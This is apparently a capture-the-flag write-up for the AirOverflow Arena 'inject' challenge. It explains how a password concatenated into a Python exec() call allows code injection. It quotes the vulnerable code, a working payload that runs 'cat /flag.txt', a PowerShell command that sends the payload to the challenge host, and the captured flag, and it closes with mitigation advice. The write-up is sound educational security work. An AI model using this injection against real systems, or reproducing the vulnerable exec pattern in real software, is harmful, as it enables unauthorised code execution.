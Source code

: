 # inject (AirOverflow Arena) – Writeup

Challenge: "inject" (misc, Easy)

Points: 200

Date solved: 2025-10-18

---

## TL;DR

- The service is a Python auth prompt that dangerously uses `exec` with the user-supplied password embedded directly in a string.
- Injecting Python code into the password lets us execute commands inside the container.
- Payload used: `") or __import__('os').system('cat /flag.txt') or True or ("`
- Flag obtained: `PCC{B4S1C_PYTH0N_INJ3CTI0N_OJCMXT32oXn}`

---

## Files provided

- `inject.zip` → contains:
  - `inject.py` — the vulnerable program
  - `Dockerfile` — shows a `flag.txt` is copied to `/flag.txt` in the container

### Key code (from `inject.py`)

```python
for user in users:
    try:
        exec('if (username == user["username"]) and ("'+password+'" == user["password"]): passwordCorrect = True; authenticated_user = user')
    except Exception as e:
        ...
```

- The `password` is inserted directly into an `exec` string, so we can break out of the quoted context and run arbitrary Python.

### Dockerfile confirms flag path

```dockerfile
ENV FLAG_FILE="/flag.txt"
COPY flag.txt ${FLAG_FILE}
```

---

## Local exploration (optional)

Not required, but if you wanted to run locally, you could:

1. Build and run the Docker image (requires Docker):
   ```powershell
   docker build -t arena-inject .
   docker run --rm -it -p 8000:8000 arena-inject
   ```
   The challenge runs as a TCP/stdio program in the container base image; you would attach and interact via `docker exec -it`.

---

## Exploitation logic

- The password comparison is inside `exec` and looks like: `("<password>" == user["password"])`.
- By supplying a password that closes the string, injects our own Python, then re-opens the expression, we bypass validation and run our code.

### Working payload

```
") or __import__('os').system('cat /flag.txt') or True or ("
```

Why it works:
- `")` closes the opening string.
- `or __import__('os').system('cat /flag.txt')` executes `cat /flag.txt`; `system` returns the exit code.
- `or True or ("` keeps the whole `if (...)` condition syntactically valid and truthy, avoiding exceptions.

---

## Getting the flag from the remote container

Your container gets assigned a port when started. Example from the session screenshot:

- Host: `c1.arena.airoverflow.com`
- Port: `12419` (yours may change when restarting)

We automated the interaction with a small PowerShell script: `send_payload.ps1`.

### Script path

`c:\Users\haryp\Downloads\inject\send_payload.ps1`

### Script contents (summary)

- Opens a TCP connection to the given host/port
- Sends username `bob`
- Sends the injection payload as the password
- Reads and prints all output

### Run it

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -File "c:\Users\haryp\Downloads\inject\send_payload.ps1" -Port 12419
```

If the container restarts and the port changes, just update `-Port` to the new value from the Arena page.

---

## Output and flag

Sample run output included (truncated banner for brevity):

```
👤 Username: 🔑 Password: PCC{B4S1C_PYTH0N_INJ3CTI0N_OJCMXT32oXn}
PCC{B4S1C_PYTH0N_INJ3CTI0N_OJCMXT32oXn}
```

Final flag:

```
PCC{B4S1C_PYTH0N_INJ3CTI0N_OJCMXT32oXn}
```

---

## Notes and mitigation

- Never use `exec`/`eval` with untrusted input. If string interpolation is required, use safe parsing and strict validation.
- For authentication, compare values directly in code, not via dynamically generated Python strings.
- Consider static analyzers or linters that flag dangerous patterns.
